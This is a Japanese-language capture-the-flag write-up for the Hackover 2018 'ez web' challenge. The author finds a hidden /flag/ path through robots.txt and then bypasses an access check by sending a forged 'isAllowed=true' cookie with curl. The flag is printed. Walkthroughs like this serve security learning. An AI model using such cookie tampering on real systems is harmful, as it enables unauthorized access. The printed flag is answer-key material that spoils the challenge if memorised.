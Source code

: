# ez web[Web]
```
Easy web challenge in the slimmest possible design.... namely none.

http://ez-web.ctf.hackover.de:8080
```
# do
- 手掛かりがない。アクセスすると
```
<!DOCTYPE html>
	<head>
		<title>Under Construction</title>
	</head>
	<body>
		<p><img src='/under_construction.gif' alt='under construction' /></p>
	</body>
</html>
```
- これしかない。altは説明文だから意味ない？

```
<html><body><h1>Whitelabel Error Page</h1><p>This application has no explicit mapping for /error, so you are seeing this as a fallback.</p><div id='created'>Sat Oct 06 06:48:43 GMT 2018</div><div>There was an unexpected error (type=Not Found, status=404).</div><div>No message available</div></body></html>
```
- /construcion, /under, /under_construction すべて上のように404が返ってくる。
- under constructionは工事中という意味。
- curlでGET, POST, PUT, DELETEを飛ばしても404
- [st98さんのブログ](https://st98.github.io/diary/posts/2017-09-18-sec-t-ctf-2017.html)
- robots.txtにアクセス→`User-agent: * Disallow: /flag/`
- `http://ez-web.ctf.hackover.de:8080/flag/`
```
<!DOCTYPE html>
	<head>
		<title>Flag Listing</title>
	</head>
	<body>
		<p><a href='flag.txt'>flag.txt</a></p>
	</body>
</html>
```
- `http://ez-web.ctf.hackover.de:8080/flag/flag.txt`
```
<!DOCTYPE html>
	<head>
		<title>Restricted Access</title>
	</head>
	<body>
		<p>You do not have permission to enter this Area. A mail has been sent to our Admins.<br/>You shall be arrested shortly.</p>
	</body>
</html>
```
- http://ez-web.ctf.hackover.de:8080/flag/flag.txt のnetwork見てると`Cookie: isAllowed=false`これは！！！いけるかも
- curl にcookieを設定するといけた
```
vagrant@vagrant:~$ curl -i -H 'Cookie: isAllowed=true' http://ez-web.ctf.hackover.de:8080/flag/flag.txt
HTTP/1.1 200
Content-Type: text/plain;charset=UTF-8
Content-Length: 142
Date: Sat, 06 Oct 2018 22:29:13 GMT

<!DOCTYPE html>
        <head>
                <title>Well done!</title>
        </head>
        <body>
                <p>hackover18{W3llD0n3,K1d.Th4tSh0tw4s1InAM1ll10n}</p>
        </body>
</html>
```